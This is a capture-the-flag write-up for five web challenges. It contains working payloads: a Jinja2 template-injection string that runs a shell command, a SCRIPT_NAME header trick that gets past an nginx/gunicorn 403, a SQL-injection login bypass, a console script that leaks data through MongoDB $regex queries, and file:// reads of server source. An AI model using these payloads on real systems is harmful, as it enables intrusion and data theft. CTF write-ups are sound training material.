 ## Challenge ninja
Filter: `- _ ,config ,os, RUNCMD, base`

Payload:
```
{{''[request.args.a][request.args.b][2][request.args.c]()[258]('cat+flag.txt',shell%3dTrue,stdout%3d-1).communicate()[0].strip()}}&a=__class__&b=__mro__&c=__subclasses__
```
Flag -> `flag{m0mmy_s33_1m_4_r34l_n1nj4}`

## Challenge Gatekeeping

Sep 1: Upload file `flag.txt.enc` to get `key_id`

key_id = 05d1dc92ce82cc09d9d7ff1ac9d5611d

Step 2: bypass 403 `/admin/key` to get key

Payload
```
GET /taidh/admin/key HTTP/1.1
key_id: 05d1dc92ce82cc09d9d7ff1ac9d5611d
SCRIPT_NAME: taidh
...
```
key = `b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3`

Explain: whenever request, nginx send this request to gunicorn. In gunicorn, when set `SCRIPT_NAME` it will append the path.
SCRIPT_NAME execute when `underscores_in_headers on`.

Final payload:
```py
from Crypto.Cipher import AES
import binascii

with open('dist/flag.txt.enc','rb') as f:
    key = binascii.unhexlify('b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3')
    data = f.read()
    iv = data[:AES.block_size]

    data = data[AES.block_size:]
    cipher = AES.new(key, AES.MODE_CFB, iv)

    print(cipher.decrypt(data))
```
Flag -> `flag{gunicorn_probably_should_not_do_that}`

## Challenge no-pass-needed
Step 1: Login with `username=admin'--&password=admin'--`
username just show `'`. Contiune login `username=taidadmin&password=admin'--` and it show taidh
=> it replace `admin`

Payload:
```
username=adadminmin'--&password=taidh
```
Flag -> `flag{wh0_n3ed5_a_p4ssw0rd_anyw4y}`

## Challenge securinotes

Run script on Console
```js
let flag = "flag{";
const list_char = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789}!@#{$_- ";

const count = (char) => {
  return new Promise((resolve,reject) => {
    setTimeout(() => {
      Meteor.call('notes.count',{
        body : {
          $regex :`${char}`
        }
      },function(err ,res ){
        if(err) reject(error);
        resolve(res);
      });
      });
  });
}

const brute_flag = async () => {
  for(let i=0; i<70;i++){
    for(let char of list_char){
      let res = await count(flag+char);
      if(res){
        flag += char;
        console.log(flag);
        break;
      }
    }
  }
}

brute_flag();
```
Flag -> `flag{4lly0Urb4s3}`

## Challenge scp-terminal
Step 1: 

file:///server/server.py#SCP-1 -> get source `server.py`

file:///server/scp_contain.py#SCP-1 -> get source `scp_contain.py`

file:///server/scp_secure.py#SCP-1 -> get source `scp_secure.py`

In source `server.py`, we can see flag at file `scp-31337.html`

Step 2: Access https://scp-wiki.wikidot.com/scp-455

![image](https://user-images.githubusercontent.com/54855855/133001150-c3769cea-89dc-4eac-befc-efe30b82e454.png)

Copy this html

Step 3: Custom above html
```js
<div class="scp-image-block block-right" style="width:300px;"><img src="file:///server/templates/scp-31337.html" style="width:300px;" alt="Wrecktophg4.jpg" class="image">
<div class="scp-image-caption" style="width:300px;">
<p>SCP-455 in the water</p>
</div>
</div>
```
Host above file on local with name `scp-1.html`.

Step 4:

On local run `php -S 0.0.0.0:1234`

Send `http://host:port/scp-1.html`

Step 5: View source and copy
![image](https://user-images.githubusercontent.com/54855855/133001493-bee55f0d-8466-49dd-a64a-92df60f263e8.png)

Send https://scp-terminal.foundation/site_19/8141ffdd234710a18eae7adf4c12ca8332f191a2.htm

Flag -> `flag{CSP_def3a7s_SCP_n0t_s0_s3cure_n0w_huh}`

## Thank
Writeup full I will upload at http://dauhoangtai.github.io later